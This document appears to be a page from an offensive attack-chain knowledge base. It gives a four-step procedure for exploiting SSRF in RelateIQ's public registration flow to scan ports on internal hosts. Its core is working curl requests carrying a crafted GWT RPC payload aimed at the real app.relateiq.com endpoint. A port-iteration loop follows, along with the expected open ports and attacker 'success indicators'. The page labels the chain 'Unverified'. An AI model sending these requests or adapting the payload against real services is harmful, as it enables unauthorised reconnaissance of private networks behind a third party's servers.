

# SSRF Port Scanning via RelateIQ Registration Custom Server Option

Multi-stage attack chain demonstrating exploitation of SSRF in RelateIQ's registration process to scan ports on localhost and other systems.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nmap]]
- Web browser or proxy tool like Burp Suite for crafting requests

### Target Environment

- RelateIQ application (web-based CRM)
- Required services/ports: HTTP/HTTPS on target ports (e.g., 80, 443)
- Network access requirements: Public access to RelateIQ registration endpoint

### Initial Access Requirements

- No credentials needed; exploits public registration feature
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Identify Custom Server Option
procedure: [[procedures/Identify-Custom-Server-Option-in-Registration]]

**Objective**: Locate the custom server URL parameter in the registration process that triggers the vulnerable validateOffice365Account function.

**Instructions**: During registration, inspect the form for Office365 integration options. The custom server field allows input of arbitrary URLs, which are passed without validation to the backend RPC method.

**Expected Output**: Confirmation of the custom server input field in the registration UI or via inspecting network requests.

**Success Indicators**:
- Custom server option visible in registration form
- RPC endpoint /app/GWT.rpc identified

### Step 2: Craft GWT RPC Request for SSRF Test
procedure: [[procedures/Craft-GWT-RPC-Request-for-SSRF-Test]]

**Objective**: Send an initial POST request to the GWT RPC endpoint using a localhost URL to test SSRF.

**Instructions**: Use a tool like curl or Burp Suite to send a POST to https://app.relateiq.com/app/GWT.rpc with the specified payload targeting https://127.0.0.1:1. Include necessary headers like Content-Type: text/x-gwt-rpc; charset=utf-8.

Execute [[commands/gwt-rpc-ssrf-test]]:

```bash
curl -X POST https://app.relateiq.com/app/GWT.rpc \
  -H "Content-Type: text/x-gwt-rpc; charset=utf-8" \
  -H "X-GWT-Permutation: 95882AF82F06F7F3497A1C7BDD950153" \
  -H "X-GWT-Module-Base: https://app.relateiq.com/app/" \
  -d '7|2|10|https://app.relateiq.com/app/|11E595F5F188A97EA5C0F616EDA48ACD|com.google.gwt.user.client.rpc.XsrfToken/4254043109|18E2A3D3C932C5D49E0CF355C34327E4|com.relateiq.web.client.UtilityService|validateOffice365Account|java.lang.String/2004016611|123@123.com|123|https://127.0.0.1:1|1|2|3|4|5|6|4|7|7|7|7|8|9|9|10|'
```

**Expected Output**: Response indicating connection attempt, such as 'Unable to connect to the remote server' for closed ports.

**Success Indicators**:
- Server processes the arbitrary URL
- Response differentiates based on connectivity

### Step 3: Perform Port Scanning via SSRF
procedure: [[procedures/Perform-Port-Scanning-via-SSRF]]

**Objective**: Iterate over target ports by modifying the URL in the RPC payload to probe for open ports on localhost or other IPs.

**Instructions**: Reference common ports from [[tools/nmap]] (top 50 ports). Replace the URL parameter (e.g., https://127.0.0.1:1) with variations like https://127.0.0.1:80, https://127.0.0.1:135, etc. Send repeated requests and note response differences.

Use a script or manual iteration with [[commands/gwt-rpc-ssrf-test]] modified for each port:

```bash
# Example for port 80
curl -X POST https://app.relateiq.com/app/GWT.rpc \
  -H "Content-Type: text/x-gwt-rpc; charset=utf-8" \
  -d '7|2|10|https://app.relateiq.com/app/|...|https://127.0.0.1:80|...'
```

**Expected Output**: Open ports yield HTTP 504 or connection errors; closed ports yield 'Unable to connect'.

**Success Indicators**:
- Varied responses based on port status
- Ability to target internal/external IPs

### Step 4: Analyze Responses for Open Ports
procedure: [[procedures/Analyze-Responses-for-Open-Ports]]

**Objective**: Document open ports discovered through response analysis, enabling further reconnaissance.

**Instructions**: Collect responses from port scans and identify patterns. For localhost, expect open ports like 80 (HTTP), 135 (RPC), 445 (SMB), 3389 (RDP), and dynamic ports 49152, 49154.

Log results manually or via script:

```bash
# Pseudo-script to log
for port in 80 135 445 3389 49152 49154; do
  # Send request and grep response
  curl ... | grep -i "connect" || echo "Open: $port"
 done
```

**Expected Output**: List of open ports: 80, 135, 445, 3389, 49152, 49154.

**Success Indicators**:
- Open ports identified on internal systems
- Potential for private network reconnaissance

## Attack Chain Summary

### Key Achievements

1. Exploited SSRF without authentication via public registration
2. Performed server-side port scanning on localhost and beyond
3. Revealed internal services like HTTP, SMB, RDP for further attacks
4. Demonstrated reconnaissance impact on private networks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01T00:00:00Z*
